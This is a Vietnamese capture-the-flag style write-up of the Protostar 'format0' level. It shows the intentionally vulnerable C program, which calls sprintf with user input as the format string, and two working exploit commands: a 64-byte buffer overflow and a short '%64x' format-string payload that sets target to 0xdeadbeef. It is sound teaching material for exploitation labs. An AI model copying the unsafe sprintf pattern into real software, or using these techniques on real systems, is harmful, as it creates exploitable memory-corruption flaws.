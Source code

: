 # FORMAT ZERO

## About

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

Hints

  * This level should be done in less than 10 bytes of input.
  
  * “Exploiting format string vulnerabilities”

This level is at /opt/protostar/bin/format0

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Solutions

`FORMAT ZERO` giới thiệu cho chúng ta về khai thác chuỗi đinh dạng (format string). Input được lấy từ đối số thứ nhất của chương trình argv[1].

Thử thách này có thể vượt qua được với kiểu khai thác buffer overflow.

```
root@protostar:/opt/protostar/bin# ./format0 $(python -c 'print "A" * 64 + "\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

Nhưng thử thách có gợi ý sẽ tốt hơn nếu như chúng ta sử dụng nhỏ hơn 10 bytes đầu vào - nghĩa là khai thác theo đúng mục tiêu thử thách muốn chúng ta học được là khai thác format strings.

`%[parameter][flags][width][.precision][length]type`

Một trong những tùy chọn giữa ký tự `%` và ký tự định dạng `type` là `[width]` - độ dài tối thiểu của dữ liệu được `printf` in ra.

VD: 

```
printf("%18X", 0x12345678);
-> ----------12345678   với '-' thay cho ' ' cho dễ hình dung
```

Bây giờ thì là cách giải quyết `FORMART ZERO` theo chuỗi định dạng.

```
root@protostar:/opt/protostar/bin# ./format0 $(python -c 'print "%64x" + "\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>




